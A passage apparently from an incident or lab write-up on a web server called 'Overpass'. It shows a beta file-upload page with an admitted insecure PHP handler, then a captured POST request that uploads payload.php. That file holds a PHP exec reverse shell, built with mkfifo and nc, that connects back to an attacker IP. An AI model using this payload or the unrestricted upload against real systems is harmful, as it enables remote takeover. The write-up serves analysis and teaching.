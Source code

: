 ```http
    } */

    .formElem label {
      width: 10rem;
      margin: 0 1rem 0 0;
    }
  </style>
  <link rel="stylesheet" type="text/css" media="screen" href="/css/main.css">
  <title>!!BETA!! - Cloud Sync</title>
</head>

<body>
  <nav>
    <img class="logo" src="/img/overpass.svg" alt="Overpass logo">
    <h2 class="navTitle"><a href="/">Overpass</a></h2>
    <a href="/aboutus">About Us</a>
    <a href="/downloads">Downloads</a>
  </nav>
  <div class="bodyFlexContainer content">
    <div>
      <div>
        <h3 class="formTitle">Overpass Cloud Sync - BETA</h1>
      </div>
      <!-- Muiri tells me this is insecure, I only learnt PHP this week so maybe I should let him fix it? Something about php eye en eye? -->
      <!-- TODO add downloading of your overpass files -->
      <form action="upload.php" method="post" enctype="multipart/form-data">
        <div class="formElem"><label for="fileToUpload">Upload your .overpass file for cloud synchronisation</label><input type="file"
            name="fileToUpload" id="fileToUpload"></div>
        <div class="formElem"><input type="submit" value="Upload File" name="submit"></div>
      </form>
    </div>
  </div>
</body>
</html>
```

From this page, the TA uploaded a PHP file capable of giving them remote access upon execution by submitting a POST request to the `/development/upload.php` URI.

```http
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
```